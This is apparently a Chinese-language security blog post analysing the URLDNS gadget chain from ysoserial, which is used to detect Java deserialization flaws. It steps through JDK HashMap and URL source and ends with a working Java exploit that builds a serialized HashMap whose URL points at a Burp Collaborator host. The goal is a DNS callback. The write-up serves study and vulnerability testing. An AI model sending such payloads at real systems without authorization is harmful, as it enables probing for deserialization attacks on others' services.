

# URLDNS链分析

`URLDNS` 是ysoserial中利用链的一个名字，通常用于检测是否存在Java反序列化漏洞。该利用链具有如下特点：

- 不限制jdk版本，使用Java内置类，对第三方依赖没有要求
- 目标无回显，可以通过DNS请求来验证是否存在反序列化漏洞
- URLDNS利用链，只能发起DNS请求，并不能进行其他利用

可以在ysoserial里面找到URLDNS的Gadget


里面列出了URLDNS的调用链

```
Gadget Chain:
      HashMap.readObject()
      	HashMap.putVal()
      		HashMap.hash()
            	URL.hashCode()
```

java.util.HashMap是java的一个内置类,里面重写了readObject方法


```
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

在结尾处调用了hash函数

```
putVal(hash(key), key, value, false, false);
```

跟进hash

```
static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

对key是否等于null进行判断,如果key不为空,则调用hashCode

**回溯Hashmap**

可以来看看Hashmap的参数



要求传入的是一个键值对,这里的key是Hashmap传入的第一个值,可以让他不为空

再看for循环

```
 for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
```

key和value就是根据s.readObject来的

接下来跟进hashCode,在java中有很多hashCode函数,这里调用的是key.hashCode

这里实现的话,我的key传入的是一个URL对象,所以这里调用的是java.net.hashCode函数

```
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

有个if判断,当hashCode的属性的值不等于-1的时候直接返回hashCode属性的值,等于-1的时候调用handler.hashCode)(this),跟进handler.hashCode


调用了getHostAddress方法,而这个方法里面会调用InetAddress.getByName(host)发送DNSLOG请求


目前这条的链子已经出来了,接下来是参数控制

先看readObject方法的最后

```
for (int i = 0; i < mappings; i++) {
    @SuppressWarnings("unchecked")
        K key = (K) s.readObject();
    @SuppressWarnings("unchecked")
        V value = (V) s.readObject();
    putVal(hash(key), key, value, false, false);
}
```

key是s.readObject()方法读出来的,那我们序列化的时候就应该存储key的值,Hashmap重写了writeObject方法

```
private void writeObject(java.io.ObjectOutputStream s)
    throws IOException {
    int buckets = capacity();
    // Write out the threshold, loadfactor, and any hidden stuff
    s.defaultWriteObject();
    s.writeInt(buckets);
    s.writeInt(size);
    internalWriteEntries(s);
}
```

跟进internalWriteEntries,在这里writeObject写入了key和value

```
void internalWriteEntries(java.io.ObjectOutputStream s) throws IOException {
    Node<K,V>[] tab;
    if (size > 0 && (tab = table) != null) {
        for (int i = 0; i < tab.length; ++i) {
            for (Node<K,V> e = tab[i]; e != null; e = e.next) {
                s.writeObject(e.key);
                s.writeObject(e.value);
            }
        }
    }
}
```

这里的key以及value是从tab中取的，而tab的值即HashMap中table的值。

想要修改table的值，就需要调用HashMap的put方法

简而言之,这里的key可以通过Hashmap的put方法传进来的,其实熟悉这个类也就知道,K,V值是通过put方法传进来的

```
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

put这里也会调用一次hash函数,和readObject方法最后我们利用那里一样,所以这里到后面也会去调用一次getHosttAddress方法,然后触发DNS请求,这样就分不清到底是序列化的时候触发的DNS请求还是反序列化触发的

但是看这里hashCode函数

```
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

hashCode本身的值是-1

```
private int hashCode = -1;
```

然后回去调用handler.hashCode,所以这里通过反射去修改hashCode属性的值,先让他为-1以外的任何数,调用put方法后再修改回-1,这样在最后反序列化的时候他的值还是-1就会去触发DNS请求

URL类的构造函数很多就直接用最简单的这种

```
public URL(String spec) throws MalformedURLException {
    this(null, spec);
}
```

所以最后的exp

```
package URLDNS;

import java.io.*;
import java.lang.reflect.*;
import java.net.URL;
import java.util.HashMap;

public class serializetest {
    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        os.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{

        HashMap map = new HashMap();
        URL url =new URL("http://110en57fndj6zv9umjox9w5in9tzho.burpcollaborator.net");//这里的URL直接用burp生成一个,在里面验证DNS请求
        Field hashCodefiled = url.getClass().getDeclaredField("hashCode");//获取hashCode属性
        hashCodefiled.setAccessible(true);//私有属性,需要暴力反射
        hashCodefiled.set(url,1);//先把hashCode的值设置为1
        map.put(url,123);//此时hashCode值为1,不会去触发DNS请求
        hashCodefiled.set(url,-1);//将hashCode的值设置为-1,这样反序列化的时候才会去触发DNS请求
        serialize(map);//序列化对象

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("ser.bin"));
        fos.readObject();//反序列化对象,此时hashCode的值为-1,触发DNS请求
    }
}
```

# 复现

执行运行exp

任何在我的burp里面收到了DNS请求


也可以去http://www.dnslog.cn/接受dns请求


JDK1.8下的调用路线：

1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()

而在jdk1.7u80环境下调用路线会有一处不同，但是大同小异：

1. HashMap->readObject()
2. **HashMap->putForCreate()**
3. HashMap->hash()
4. URL->hashCode()
5. 之后相同


参考链接

https://www.bilibili.com/video/BV16h411z7o9?p=2

https://xz.aliyun.com/t/9417#toc-2